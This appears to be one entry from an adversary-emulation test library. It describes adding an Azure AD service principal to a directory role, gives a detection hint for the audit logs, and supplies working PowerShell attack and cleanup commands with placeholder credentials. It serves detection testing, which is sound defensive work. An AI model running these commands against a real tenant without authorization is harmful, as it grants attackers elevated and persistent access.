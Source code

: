 ## Atomic Test #5 - Azure AD - adding service principal to Azure AD role
The adversaries want to add service principal to some Azure AD role. Threat actor 
may be interested primarily in highly privileged roles, e.g. Global Administrator, Application Administrator, 
Privileged Authentication Administrator (this role can reset Global Administrator password!).
By default, the role Global Reader is assigned to service principal in this test.

The account you use to run the PowerShell command should have Privileged Role Administrator or Global Administrator role in your Azure AD.

Detection hint - check Activity "Add member to role" in Azure AD Audit Logs. In targer you will also see Service Principal as a type.

**Supported Platforms:** Azure-ad


**auto_generated_guid:** 92c40b3f-c406-4d1f-8d2b-c039bf5009e4





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Azure AD username | string | jonh@contoso.com|
| password | Azure AD password | string | p4sswd|
| service_principal_name | Name of the service principal | string | SuperSP|
| role_name | Name of the targeted Azure AD role | string | Global Reader|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module -Name AzureAD
$PWord = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Pword
Connect-AzureAD -Credential $Credential

$sp = Get-AzureADServicePrincipal -Filter "DisplayName eq '#{service_principal_name}'"
if ($sp -eq $null) { Write-Warning "Service Principal not found"; exit }
$role = Get-AzureADDirectoryRole -Filter "DisplayName eq '#{role_name}'"
if ($role -eq $null) { Write-Warning "Role not found"; exit }
Add-AzureADDirectoryRoleMember -ObjectId $role.ObjectId -RefObjectId $sp.ObjectId
Write-Host "Service Principal $($sp.DisplayName) was added to $($role.DisplayName)"
```

#### Cleanup Commands:
```powershell
Import-Module -Name AzureAD -ErrorAction Ignore
$PWord = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Pword
Connect-AzureAD -Credential $Credential -ErrorAction Ignore

$sp = Get-AzureADServicePrincipal -Filter "DisplayName eq '#{service_principal_name}'"
if ($sp -eq $null) { Write-Warning "Service Principal not found"; exit }
$role = Get-AzureADDirectoryRole -Filter "DisplayName eq '#{role_name}'"
if ($role -eq $null) { Write-Warning "Role not found"; exit }

Remove-AzureADDirectoryRoleMember -ObjectId $role.ObjectId -MemberId $sp.ObjectId
Write-Host "Service Principal $($sp.DisplayName) was removed from $($role.DisplayName) role"
```

